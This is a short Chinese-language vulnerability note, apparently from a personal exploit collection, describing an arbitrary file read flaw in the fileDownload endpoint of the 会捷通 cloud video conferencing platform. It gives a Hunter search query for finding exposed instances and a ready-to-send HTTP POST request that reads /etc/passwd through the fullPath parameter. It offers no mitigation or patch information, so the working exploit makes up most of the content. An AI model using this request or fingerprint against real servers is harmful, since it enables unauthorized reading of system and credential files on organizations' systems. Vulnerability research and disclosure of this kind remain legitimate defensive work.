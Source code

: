 # 会捷通云视讯平台任意文件读取漏洞

# 一、漏洞复现
<font style="color:rgb(0,0,0);">会捷通云视讯平台是基于软视频会议在私有云或者公有云环境下提供的企业级视频通讯平台，可以为用户提供跨越企业内外，基于会议室、桌面和移动应用的视频通讯和会议解决方案，会捷通云视讯平台平台fileDownload处存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件。</font>

# <font style="color:rgb(0,0,0);">二、影响版本</font>
+ <font style="color:rgb(0,0,0);">会捷通云视讯平台</font>

# <font style="color:rgb(0,0,0);">三、资产测绘</font>
+ hunter`web.body="/him/api/rest/v1.0/node/role"`
+ 特征

![1699886043031-85921d94-a0de-4ee2-b42e-019690c22439.png](./img/LdsjjeXaM_Wwu42w/1699886043031-85921d94-a0de-4ee2-b42e-019690c22439-950668.png)

# 四、漏洞复现
```plain
POST /fileDownload HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 46

action=downloadBackupFile&fullPath=/etc/passwd
```

![1699886073566-3a3c1975-ac9a-4dfa-b1fd-af7c9d921c50.png](./img/LdsjjeXaM_Wwu42w/1699886073566-3a3c1975-ac9a-4dfa-b1fd-af7c9d921c50-061757.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/cbnq9fgdga6chkxw>